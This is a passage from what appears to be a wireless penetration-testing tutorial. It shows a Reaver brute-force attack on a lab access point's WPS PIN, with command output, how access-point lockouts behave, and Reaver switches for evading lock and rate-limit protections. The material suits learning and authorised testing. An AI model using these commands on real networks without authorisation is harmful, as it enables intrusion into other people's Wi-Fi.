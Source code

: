 In a new terminal, we can start the bruteforce attempt on the available WiFi network.

```shell
reaver -i mon0 -c 1 -b 86:53:10:C3:1B:26 -v

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <[email protected]>

[+] Waiting for beacon from 86:53:10:C3:1B:26
[+] Received beacon from 86:53:10:C3:1B:26
[+] Trying pin "12345670"
[!] Found packet with bad FCS, skipping...
[+] Associated with 86:53:10:C3:1B:26 (ESSID: HackMe)
[+] Trying pin "00005678"
[+] Associated with 86:53:10:C3:1B:26 (ESSID: HackMe)
[+] Trying pin "01235678"
[+] Associated with 86:53:10:C3:1B:26 (ESSID: HackMe)

[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking

```

After three incorrect attempts, the AP will enter a `Locked` state for `60 seconds`. Each subsequent wrong PIN attempt will cause the AP to lock for another 60 seconds. However, after 10 incorrect attempts, the AP will lock for `365 days`.

We can observe in the `airodump-ng` output that the access point goes into a `Locked` state.

```shell
airodump-ng mon0 --wps -c 1

 CH  1 ][ Elapsed: 48 s ][ 2024-07-01 19:52

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS                ESSID

 86:53:10:C3:1B:26  -28   0      483       33    0   1   54   WPA2 CCMP   PSK Locked              HackMe

```

In some cases, vendors might have not implemented strict lock mechanisms, allowing us to continue bruteforcing using Reaver. The tool can be fine-tuned with additional advanced switches to optimize the bruteforce process, for example:

| **Option** | **Description** |
| --- | --- |
| `-L, --ignore-locks` | Ignore locked state reported by the target AP |
| `-N, --no-nacks` | Do not send NACK messages when out of order packets are received |
| `-d, --delay=<seconds>` | Set the delay between pin attempts \[1\] |
| `-T, --m57-timeout=<seconds>` | Set the M5/M7 timeout period \[0.40\] |
| `-r, --recurring-delay=<x:y>` | Sleep for y seconds every x pin attempts |
